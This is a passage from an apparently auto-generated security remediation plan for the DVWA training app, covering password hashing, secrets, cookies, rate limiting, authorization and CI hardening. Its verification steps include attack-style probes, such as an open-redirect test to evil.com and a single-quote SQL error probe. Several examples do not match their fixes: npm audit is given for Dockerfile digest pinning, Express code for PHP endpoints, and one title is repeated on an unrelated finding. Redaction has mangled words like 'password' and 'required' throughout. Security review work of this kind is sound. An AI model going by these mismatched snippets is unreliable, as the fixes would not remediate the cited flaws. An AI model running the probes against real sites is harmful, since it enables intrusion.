**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/docker-image.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only wh…

1. Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-010 scanner check; it reports no match at .`github/workflows/docker-image.yml:1`, and the regression test passes.

---

<a id="m-021"></a>
#### M-021 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA (`docker-image.yml:16`)

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-829](https://cwe.mitre.org/data/definitions/829.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/docker-image.yml:16`

**How:** Pin every third-party action to a full 40-char commit SHA

1. Pin every third-party action to a full 40-char commit SHA
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-011 scanner check; it reports no match at .`github/workflows/docker-image.yml:16`, and the regression test passes.

---

<a id="m-022"></a>
#### M-022 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-023](#f-023) — Dockerfile base image must be digest-pinned (`Dockerfile:1`)

**Prevents CWEs:**

- [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) - Use of Unmaintained Third-Party Components

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest>

1. Pin base image to @sha256:<digest>
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `Dockerfile:1`: it applies **Pin the container base image to an immutable digest**. The ordered steps above remain authoritative._

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** Re-run the IAC-001 scanner check; it reports no match at Dockerfile:1, and the regression test passes.

---

<a id="m-023"></a>
#### M-023 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-024](#f-024) — `Package-lock.json` present and committed (`A:0`)

**Prevents CWEs:**

- [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) - Use of Unmaintained Third-Party Components

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `N/A:0`

**How:** Commit `package-lock.json`; use `npm ci` in CI

1. Commit `package-lock.json`; use `npm ci` in CI
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `N/A:0`: it applies **Pin the container base image to an immutable digest**. The ordered steps above remain authoritative._

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** Re-run the IAC-050 scanner check; it reports no match at N/A:0, and the regression test passes.

---

<a id="m-024"></a>
#### M-024 — Stop storing sensitive data in cleartext

**Addresses:**

- 🟠 [F-025](#f-025) — Cleartext Passwords in SQLite User Seed (`create_sqlite_db.sql:22`)

**Prevents CWEs:**

- [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `database/create_sqlite_db.sql:22`

**How:**

1. Replace bare pass**** (8 chars) string literals in `create_sqlite_db.sql` with pre-computed bcrypt hashes (matching the fix for CWE-916 in 🟠 [F-026](#f-026) — Unsalted MD5 Hashing Used for User Passwords (`create_postgresql_db.sql:2`)) so both backends use the same pass**** (8 chars) storage quality.
2. Add an Apache `<Directory /var/www/html/database>` block with `Require all denied` or a `.htaccess` file with `Deny from all` to prevent web server traversal to `sqli.db`.
3. Ensure `sqli.db` is stored outside the web root tree, referenced by absolute path in `config.inc.php`, rather than co-located with web-accessible files.

_Example implementation in `database/create_sqlite_db.sql:22`: it applies **Stop storing sensitive data in cleartext**. The ordered steps above remain authoritative._

```javascript
-- create_sqlite_db.sql — Before (cleartext pass**** (8 chars)s)
insert into users values ('1','admin','admin','admin',('pass**** (8 chars)'),'admin.jpg',DATE(),'0');

-- After (pre-computed bcrypt hash; match pass**** (8 chars)_hash('pass**** (8 chars)', PASSWORD_BCRYPT, ['cost'=>12]) output)
insert into users values ('1','admin','admin','admin','$2y$12$<hash>','admin.jpg',DATE(),'0');
```

**Verification:** Run `sqlite3 database/sqli.db 'SELECT pass**** (8 chars) FROM users LIMIT 1;'` and confirm the value starts with $2y$ or \$argon2id$. Confirm `curl http://localhost/database/sqli.db` returns HTTP 403.

**Reference:** [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

---

<a id="m-025"></a>
#### M-025 — Hash pass**** (8 chars)s with a strong, salted algorithm

**Addresses:**

- 🟠 [F-026](#f-026) — Unsalted MD5 Hashing Used for User Passwords (`create_postgresql_db.sql:2`)

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `database/create_postgresql_db.sql:2`

**How:**

1. Replace the `MD5()` calls in all SQL seed files with bcrypt hashes (PHP: `pass**** (8 chars)_hash('value', PASSWORD_BCRYPT, ['cost'=>12])`) and regenerate the INSERT statements.
2. Update DVWA's pass**** (8 chars) verification code (wherever `md5($pass**** (8 chars))` is used) to call `pass**** (8 chars)_verify($input, $stored_hash)` instead.
3. Enable MariaDB's `encrypt at rest` via InnoDB tablespace encryption: add `--innodb-encrypt-tables=ON` and provide a keyfile via the keyring plugin.

_Example implementation in `database/create_postgresql_db.sql:2`: it applies **Hash pass**** (8 chars)s with a strong, salted algorithm**. The ordered steps above remain authoritative._

```javascript
// Before — dvwa login verification
if (md5($pass) == $data['pass**** (8 chars)']) { ... }

// After — use pass**** (8 chars)_verify with bcrypt
if (pass**** (8 chars)_verify($pass, $data['pass**** (8 chars)'])) { ... }

// Seed file — replace MD5() with pre-computed bcrypt hash
-- INSERT INTO users VALUES (1,'admin','admin','admin',
--   '$2y$12$...bcrypt_hash_of_pass**** (8 chars)...','admin.jpg',NOW(),0);
```

**Verification:** SELECT pass**** (8 chars) FROM users WHERE user='admin'; - confirm the value starts with $2y$ (bcrypt) or \$argon2id$ and is at minimum 60 characters long. Confirm `md5` does not appear in any INSERT statement across database/*.sql.

**Reference:** [CWE-916: Use of Password Hash with Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)

---

<a id="m-026"></a>
#### M-026 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-027](#f-027) — Password Hash Exposure via v1 User API (`User.php:44`)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/api/src/User.php:44`

**How:**

1. Remove the 'pass**** (8 chars)' key from User::`toArray()` for all version branches including the v1 case; the pass**** (8 chars) hash has no legitimate use in an API response.
2. If v1 is needed for training purposes, add authentication equivalent to the OrderController `checkToken()` pattern before serving any user data.
3. Replace the `SHA-256` hash with a salted Argon2 or bcrypt hash for any actual user credential storage.

_Example implementation in `vulnerabilities/api/src/User.php:44`: it applies **Stop exposing internal information to clients**. The ordered steps above remain authoritative._

```javascript
// Before (User.php:42-47, v1 case)
$a = array(
    "id" => $this->id,
    "name" => $this->name,
    "level" => $this->level,
    "pass**** (8 chars)" => $this->pass**** (8 chars),  // REMOVE THIS LINE
);

// After: same structure without pass**** (8 chars) field
```

**Verification:** Issue `GET /api/v1/user/` and confirm the response body contains no 'pass**** (8 chars)' or 'hash' field for any user object.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-027"></a>
#### M-027 — Return generic error messages to clients

**Addresses:**

- 🟠 [F-028](#f-028) — Database Error Disclosure in Authentication Path (`login.php:40`)

**Prevents CWEs:**

- [CWE-209](https://cwe.mitre.org/data/definitions/209.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `login.php:40`

**How:**

1. Replace `or die('<pre>' . mysqli_error(...) . '</pre>')` with a try/catch block that logs the error server-side via `error_log()` and returns a generic 'Login failed' message.
2. Set `PDO::ERRMODE_EXCEPTION` on the PDO connection (already done for the PDO connection at `dvwaPage.inc.php:579`) and remove all `mysqli_error()` calls from user-facing code paths.
3. Disable PHP's `display_errors` in the production `php.ini` (`display_errors=Off`).

_Example implementation in `login.php:40`: it applies **Return generic error messages to clients**. The ordered steps above remain authoritative._

```javascript
// Before (line 40):
$result = @mysqli_query(...) or die('<pre>' . mysqli_error($GLOBALS['___mysqli_ston']) . '</pre>');

// After:
$result = @mysqli_query($GLOBALS['___mysqli_ston'], $query);
if (!$result) {
    error_log('Login query error: ' . mysqli_error($GLOBALS['___mysqli_ston']));
    dvwaMessagePush('Login failed.');
    dvwaRedirect('login.php');
}
```

**Verification:** Submit a username containing a single quote; confirm the HTTP response contains no SQL error text, only the generic 'Login failed' message.

**Reference:** [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html)

---

<a id="m-028"></a>
#### M-028 — Set HttpOnly, Secure, and SameSite=Strict on the session cookie at all security…

**Addresses:**

- 🟠 [F-029](#f-029) — Session Cookie Missing HttpOnly and Secure Flags at Non-Impossible Levels (`dvwaPage.inc.php:62`)

**Prevents CWEs:**

- [CWE-614](https://cwe.mitre.org/data/definitions/614.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/dvwaPage.inc.php:62`

**How:**

1. Set `$secure = true` unconditionally in `dvwa_start_session()` (line 62), or derive it from `!empty($_SERVER['HTTPS'])`.
2. Set `$httponly = true` at all security levels (currently only at impossible); remove the `if ($security_level == 'impossible')` branch for this flag.
3. Set `$samesite = 'Strict'` at all security levels.
4. Configure the web server or PHP to set the `Secure` flag only when TLS is available, or enforce TLS termination at the container boundary.

_Example implementation in `dvwa/includes/dvwaPage.inc.php:62`: it applies **Set HttpOnly, Secure, and SameSite=Strict on the session cookie at all security…**. The ordered steps above remain authoritative._

```javascript
// dvwaPage.inc.php — apply security flags unconditionally
$secure  = isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] !== 'off';
$httponly = true;   // always
$samesite = 'Strict'; // always
```

**Verification:** Authenticate at `security=low` and inspect `Set-Cookie` response header; confirm `HttpOnly`, `Secure`, and `SameSite=Strict` attributes are present.

**Reference:** [CWE-614](https://cwe.mitre.org/data/definitions/614.html)

---

<a id="m-029"></a>
#### M-029 — Add Content-Security-Policy, X-Frame-Options, X-Content-Type-Options, and HSTS…

**Addresses:**

- 🟠 [F-030](#f-030) — Missing HTTP Security Headers Across All Responses (`dvwaPage.inc.php:385`)

**Prevents CWEs:**

- [CWE-693](https://cwe.mitre.org/data/definitions/693.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/dvwaPage.inc.php:385`

**How:**

1. In `dvwaPage.inc.php:dvwaHtmlEcho()`, add `Header('Content-Security-Policy: default-src \'self\'; script-src \'self\'');`.
2. Add `Header('X-Frame-Options: SAMEORIGIN');` to prevent clickjacking.
3. Add `Header('X-Content-Type-Options: nosniff');` to prevent MIME sniffing.
4. Add `Header(``'Strict-Transport-Security: max-age=31536000; includeSubDomains'``);` when the application is served over TLS.
5. Add `Header('Referrer-Policy: no-referrer');` to prevent URL leakage.

**Verification:** Fetch any DVWA page and inspect response headers with `curl -I`; confirm all five headers are present.

**Reference:** [CWE-693: Protection Mechanism Failure](https://cwe.mitre.org/data/definitions/693.html)

---

<a id="m-030"></a>
#### M-030 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-031](#f-031) — Hardcoded Default Database Password in Repository (`config.inc.php.dist:21`)

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `config/config.inc.php.dist:21`

**How:**

1. Replace `getenv('DB_PASSWORD') ?: 'p@ss**** (8 chars)'` with `getenv('DB_PASSWORD') ?: die('DB_PASSWORD environment variable is requ**** (8 chars)')` to fail startup when the variable is absent.
2. Remove `MYSQL_PASSWORD=p@ss**** (8 chars)` from `compose.yml` and replace it with a reference to an environment file (`env_file: .env`) that is in `.gitignore`.
3. Rotate the database pass**** (8 chars) in all deployed environments and confirm the old pass**** (8 chars) no longer works.

_Example implementation in `config/config.inc.php.dist:21`: it applies **Move secrets to a managed secret store**. The ordered steps above remain authoritative._

```javascript
// config/config.inc.php.dist — fail closed instead of defaulting
$_DVWA['db_pass**** (8 chars)'] = getenv('DB_PASSWORD') ?: die('Fatal: DB_PASSWORD is not set.');

# compose.yml — reference external secret
services:
  db:
    env_file:
      - .env  # not committed; contains MYSQL_PASSWORD=<generated>
```

**Verification:** Start the container without `DB_PASSWORD` set and confirm startup fails with the error message; confirm the old `p@ss**** (8 chars)` credential is rejected by the DB.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-031"></a>
#### M-031 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-032](#f-032) — Missing Rate Limiting on Authentication Endpoints (`index.php:39`)

**Prevents CWEs:**

- [CWE-307](https://cwe.mitre.org/data/definitions/307.html) - Improper Restriction of Excessive Authentication Attempts

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/api/public/index.php:39`

**How:**

1. Add a rate-limiting check at the top of LoginController::`login()` using a shared counter (Redis or APCu) keyed on client IP and username; reject with HTTP 429 after 5 failures per minute.
2. Apply a separate per-IP rate limit to the health/connectivity endpoint to prevent thread exhaustion; consider running the ping in a non-blocking way with a strict timeout.
3. Document the limits in the OpenAPI spec so API clients handle 429 responses gracefully.

_Example implementation in `vulnerabilities/api/public/index.php:39`: it applies **Rate-limit and lock out repeated authentication attempts**. The ordered steps above remain authoritative._

```typescript
// Per-IP + per-account rate limiting on auth endpoints.
import rateLimit from 'express-rate-limit'
app.use('/rest/user/login',
  rateLimit({ windowMs: 60_000, max: 5, standardHeaders: true }))
```

**Verification:** Send 10 consecutive login requests with wrong credentials from the same IP within one minute; confirm the 6th request receives HTTP 429 with a Retry-After header.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-032"></a>
#### M-032 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-033](#f-033) — No Rate Limiting or Account Lockout on Login Endpoint (`login.php:10`)

**Prevents CWEs:**

- [CWE-307](https://cwe.mitre.org/data/definitions/307.html) - Improper Restriction of Excessive Authentication Attempts

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `login.php:10`

**How:**

1. Implement a server-side attempt counter stored in the PHP session or a shared key-value store; increment on each failed login attempt for the same username.
2. After 5 consecutive failures for a given username, introduce a 30-second lockout and return HTTP 429.
3. Apply an IP-level rate limit (e.g. max 10 login attempts per minute per IP) using Apache `mod_ratelimit` or a PHP middleware.
4. Log each lockout event with the username, IP, and timestamp.

_Example implementation in `login.php:10`: it applies **Rate-limit and lock out repeated authentication attempts**. The ordered steps above remain authoritative._

```typescript
// Per-IP + per-account rate limiting on auth endpoints.
import rateLimit from 'express-rate-limit'
app.use('/rest/user/login',
  rateLimit({ windowMs: 60_000, max: 5, standardHeaders: true }))
```

**Verification:** Submit 10 failed login attempts with the same username within 30 seconds; confirm the 11th attempt returns HTTP 429 and the account is locked for 30 seconds.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-033"></a>
#### M-033 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-034](#f-034) — Write-all `GITHUB_TOKEN` inherited by all workflows no permissions block (`shiftleft-analysis.yml:27`)

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/shiftleft-analysis.yml:27`

**How:**

1. Add `permissions: read-all` at the workflow level as a safe default for all five workflows, then explicitly grant only the minimum requ**** (8 chars) per-job scope (e.g., `contents: read` for checkout-only jobs, `packages: write` only in the Docker push job).
2. For the ShiftLeft workflow, remove the explicit `GITHUB_TOKEN` env var from the `ShiftLeftSecurity/scan-action` step or scope the token to `security-events: write` only, as requ**** (8 chars) for SARIF upload.
3. Use `github/codeql-action/upload-sarif` with a separately scoped token rather than passing the full `GITHUB_TOKEN` to a third-party vendor action.
4. Audit all workflow `secrets.GITHUB_TOKEN` and `secrets.*` references and confirm each is passed only to first-party (github/*) or SHA-pinned, trust-verified actions.

_Example implementation in `.github/workflows/shiftleft-analysis.yml:27`: it applies **Drop unnecessary privileges in build and runtime**. The ordered steps above remain authoritative._

```javascript
# Add at the top of each workflow, under `on:`:
permissions:
  contents: read

# For the Docker push job only, override:
jobs:
  build:
    permissions:
      contents: read
      packages: write
```

**Verification:** Run `grep -rL 'permissions:' .github/workflows/` - zero output confirms every workflow file declares a permissions block. Confirm `GITHUB_TOKEN` env vars are absent from third-party action steps.

**Reference:** [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

---

<a id="m-034"></a>
#### M-034 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-035](#f-035) — Known Root Password 'dvwa' Enables Full DB Admin Access (`compose.yml:31`)

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `compose.yml:31`

**How:**

1. Generate a unique root pass**** (8 chars) per deployment with `openssl rand -base64 32` and supply it via an untracked .env file or Docker secret - never commit it to `compose.yml`.
2. Add `--bind-address=127.0.0.1` to the MariaDB command in `compose.yml` to restrict the listening socket to loopback within the container, preventing cross-container TCP access to port 3306.
3. Confirm the root account has host='localhost' only: `SELECT host, user FROM mysql.user WHERE user='root';` and run `UPDATE mysql.user SET host='localhost' WHERE user='root'; FLUSH PRIVILEGES;`

_Example implementation in `compose.yml:31`: it applies **Move secrets to a managed secret store**. The ordered steps above remain authoritative._

```javascript
# compose.yml — After: no root pass**** (8 chars) in file; bind to loopback
services:
  db:
    image: docker.io/library/mariadb:10
    command: --bind-address=127.0.0.1
    env_file:
      - .env.db   # MYSQL_ROOT_PASSWORD generated by openssl rand -base64 32
    networks:
      - dvwa
```

**Verification:** From a sibling container on the dvwa network, run `mysql -h db -u root -p dvwa dvwa -e 'SELECT 1;'` and confirm authentication fails with ERROR 1045. Confirm `SELECT host FROM mysql.user WHERE user='root';` returns only 'localhost'.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-035"></a>
#### M-035 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-036](#f-036) — Unauthenticated User Privilege Level Manipulation (`UserController.php:225`)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/api/src/UserController.php:225`

**How:**

1. Add `checkToken()` to UserController (see 🔴 [F-016](#f-016) — Missing Authentication on User CRUD Endpoints (`UserController.php`) remediation) as a prerequisite; this is the minimum control that prevents anonymous privilege escalation.
2. After token verification, decode the caller's identity and enforce that only admin-level callers may change the 'level' field; regular users should receive HTTP 403 if the level field differs from their current level.
3. Consider removing the level field from the `addUser()` and `updateUser()` request schemas in the OpenAPI spec and treating it as a server-assigned property.

_Example implementation in `vulnerabilities/api/src/UserController.php:225`: it applies **Enforce server-side authorization on every endpoint**. The ordered steps above remain authoritative._

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Issue `PUT /api/v2/user/1` with body `{"level":1}` without an Authorization header and confirm the response is HTTP 401; issue the same request with a valid non-admin token and confirm HTTP 403.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-036"></a>
#### M-036 — Require authentication on every exposed endpoint

**Addresses:**

- 🔴 [F-037](#f-037) — Unauthenticated Database Setup and Reset Endpoint (`setup.php:6`)

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `setup.php:6`

**How:**

1. Change `dvwaPageStartup( array() )` to `dvwaPageStartup( array('authenticated') )` on `setup.php:6` so only logged-in users can access the setup page.
2. Add an admin-role check before the `create_db` handler: verify `dvwaCurrentUser() == 'admin'` and return HTTP 403 for other users.
3. As a defence-in-depth measure, expose the setup endpoint only on the loopback interface or behind an admin-only network segment.

_Example implementation in `setup.php:6`: it applies **Require authentication on every exposed endpoint**. The ordered steps above remain authoritative._

```javascript
// setup.php line 6 — before:
dvwaPageStartup( array( ) );

// After:
dvwaPageStartup( array( 'authenticated' ) );
if (dvwaCurrentUser() !== 'admin') {
    dvwaMessagePush('Admin access requ**** (8 chars).');
    dvwaRedirect('index.php');
}
```

**Verification:** Attempt to GET `/setup.php` without a session cookie; confirm a redirect to `login.php` rather than the setup form.

**Reference:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<a id="m-037"></a>
#### M-037 — Hash pass**** (8 chars)s with a strong, salted algorithm

**Addresses:**

- 🟠 [F-038](#f-038) — MD5 Password Hashing Without Salt (`login.php:27`)

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `login.php:27`

**How:**

1. Replace `md5($pass)` with `pass**** (8 chars)_hash($pass, PASSWORD_BCRYPT, ['cost' => 12])` for new pass**** (8 chars) storage.
2. Replace the equality check in the login query with a two-step process: fetch the stored hash by username only, then verify with `pass**** (8 chars)_verify($submitted, $stored_hash)`.
3. Migrate existing `MD5` hashes by checking `strlen($stored) == 32` (`MD5`) on login and re-hashing on first successful authentication.

_Example implementation in `login.php:27`: it applies **Hash pass**** (8 chars)s with a strong, salted algorithm**. The ordered steps above remain authoritative._

```javascript
// login.php — after (bcrypt path)
$row = /* fetch row by username only */;
if ($row && pass**** (8 chars)_verify($pass, $row['pass**** (8 chars)'])) {
    if (pass**** (8 chars)_needs_rehash($row['pass**** (8 chars)'], PASSWORD_BCRYPT, ['cost' => 12])) {
        $new_hash = pass**** (8 chars)_hash($pass, PASSWORD_BCRYPT, ['cost' => 12]);
        /* UPDATE users SET pass**** (8 chars) = ? WHERE user = ? */;
    }
    dvwaLogin($user);
}
```

**Verification:** Store a new pass**** (8 chars) with `pass**** (8 chars)_hash()`; confirm `pass**** (8 chars)_verify()` accepts it and that the stored value is a 60-character bcrypt string starting with `$2y$`.

**Reference:** [CWE-916: Use of Password Hash with Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)

---

### P3 — Next Quarter

<a id="m-038"></a>
#### M-038 — Validate redirect targets against an allowlist

**Addresses:**

- 🟡 [F-039](#f-039) — Open Redirect (`low.php:4`)

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/open_redirect/source/low.php:4`

**How:**

1. Define an explicit array of permitted redirect destinations (e.g. only paths within the application root).
2. Parse the supplied URL and reject any value whose host does not match `$_SERVER['HTTP_HOST']` or whose scheme is not `http`/`https` within the same origin.
3. Return HTTP 400 with a generic error page for any redirect that fails validation.

_Example implementation in `vulnerabilities/open_redirect/source/low.php:4`: it applies **Validate redirect targets against an allowlist**. The ordered steps above remain authoritative._

```javascript
// Safe: allowlist-only redirect
$allowed = ['info.php', 'index.php'];
$target = $_GET['redirect'] ?? '';
if (!in_array($target, $allowed, true)) {
    http_response_code(400);
    exit('Invalid redirect target.');
}
header('Location: ' . $target);
```

**Verification:** Request `?redirect=https://evil.com`; confirm the server returns HTTP 400 rather than a redirect.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-039"></a>
#### M-039 — Use modern cryptographic hash and KDF algorithms

**Addresses:**

- 🟡 [F-040](#f-040) — Broken hash primitive PHP `dvwa/includes/dvwaPage.inc.php:651` (`MD5/SHA-1`) (`dvwaPage.inc.php:651`)
- 🟡 [F-041](#f-041) — Broken hash primitive PHP (`impossible.php:14`)
- 🟡 [F-042](#f-042) — Broken hash primitive PHP (`impossible.php:19`)
- 🟡 [F-043](#f-043) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:15` (SHA-1) (`impossible.php:15`)
- 🟡 [F-044](#f-044) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:29` (SHA-1) (`impossible.php:29`)
- 🟡 [F-045](#f-045) — Broken hash primitive PHP `vulnerabilities/csrf/test_credentials.php:19` (SHA-1) (`test_credentials.php:19`)
- 🟡 [F-046](#f-046) — Broken hash primitive PHP `vulnerabilities/javascript/index.php:43` (`MD5/SHA-1`) (`index.php:43`)
- 🟡 [F-047](#f-047) — Broken hash primitive PHP `vulnerabilities/javascript/source/low.php:18` (SHA-1) (`low.php:18`)

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-328](https://cwe.mitre.org/data/definitions/328.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `dvwa/includes/dvwaPage.inc.php:651`

**How:** Use pass**** (8 chars)`_hash()` (bcrypt/argon2) for credentials and `hash('sha256', …)` for i…

1. Use pass**** (8 chars)`_hash()` (bcrypt/argon2) for credentials and `hash('sha256', …)` for integrity.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the CRYPTO-PHP-001 scanner check; it reports no match at dvwa/includes/`dvwaPage.inc.php`:651, and the regression test passes.

---

<a id="m-040"></a>
#### M-040 — Sign container images with cosign and generate SLSA provenance on every push

**Addresses:**

- 🟡 [F-048](#f-048) — Docker image pushed without signing or SLSA provenance (`docker-image.yml:41`)

**Prevents CWEs:**

- [CWE-494](https://cwe.mitre.org/data/definitions/494.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/docker-image.yml:41`

**How:**

1. Install `sigstore/cosign-installer` action after the build step and run `cosign sign --yes $IMAGE_ID@$DIGEST` using a keyless OIDC identity (no long-lived key requ**** (8 chars)).
2. Add `docker/build-push-action` with `provenance: true` and `sbom: true` flags to generate SLSA L1 provenance attestations and a CycloneDX SBOM alongside the image manifest.
3. Update the job `permissions:` block (after applying 🟠 [F-034](#f-034) — Write-all GITHUB_TOKEN inherited by all workflows no permissions block fix) to include `id-token: write` requ**** (8 chars) for keyless cosign signing via GitHub OIDC.
4. Document the verification command for consumers: `cosign verify ghcr.io/digininja/dvwa:latest --certificate-identity-regexp=https://github.com/digininja/DVWA --certificate-oidc-issuer=https://token.actions.githubusercontent.com`.

_Example implementation in `.github/workflows/docker-image.yml:41`: it applies **Sign container images with cosign and generate SLSA provenance on every push**. The ordered steps above remain authoritative._

```javascript
- name: Install cosign
  uses: sigstore/cosign-installer@<SHA>  # pin to SHA

- name: Sign image
  run: cosign sign --yes $IMAGE_ID:$VERSION
  env:
    COSIGN_EXPERIMENTAL: 1
```

**Verification:** After a build, run `cosign verify ghcr.io/digininja/dvwa:latest --certificate-identity-regexp=...` - successful verification with exit code 0 confirms the image is signed.

**Reference:** [CWE-494](https://cwe.mitre.org/data/definitions/494.html)

---

<a id="m-041"></a>
#### M-041 — Add security audit logging

**Addresses:**

- 🟡 [F-049](#f-049) — No MySQL Binary Logging or Immutable Audit Trail Configured in Database Layer (`compose.yml:29`)

**Prevents CWEs:**

- [CWE-778](https://cwe.mitre.org/data/definitions/778.html) - Insufficient Logging

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `compose.yml:29`

**How:**

1. Add `--log-bin=binlog` and `--binlog-format=ROW` to the MariaDB service command in `compose.yml` to enable binary logging that captures all DML and DDL changes.
2. Consider enabling the MariaDB Audit Plugin (`INSTALL PLUGIN server_audit SONAME 'server_audit.so'; SET GLOBAL server_audit_logging=ON;`) and route its output to a volume-mounted file or sidecar log collector.
3. Ensure the 'dvwa' runtime user cannot truncate or drop the audit tables: revoke DDL from the runtime user (see 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions (`bac_setup.sql:27`)) and restrict DELETE on the log tables.

_Example implementation in `compose.yml:29`: it applies **Add security audit logging**. The ordered steps above remain authoritative._

```javascript
# compose.yml — add command to db service
services:
  db:
    image: docker.io/library/mariadb:10
    command: --log-bin=binlog --binlog-format=ROW --expire-logs-days=14
    environment:
      - MYSQL_ROOT_PASSWORD=${MYSQL_ROOT_PASSWORD}
    volumes:
      - dvwa:/var/lib/mysql
```

**Verification:** Run `SHOW MASTER STATUS;` on the MariaDB instance; confirm a non-empty File column. Perform a test INSERT and verify it appears in `mysqlbinlog binlog.000001 | grep INSERT`.

**Reference:** [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)

---

<a id="m-042"></a>
#### M-042 — Add security audit logging

**Addresses:**

- 🟡 [F-050](#f-050) — Missing Security Event Audit Logging (`login.php:43`)

**Prevents CWEs:**

- [CWE-778](https://cwe.mitre.org/data/definitions/778.html) - Insufficient Logging

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `login.php:43`

**How:**

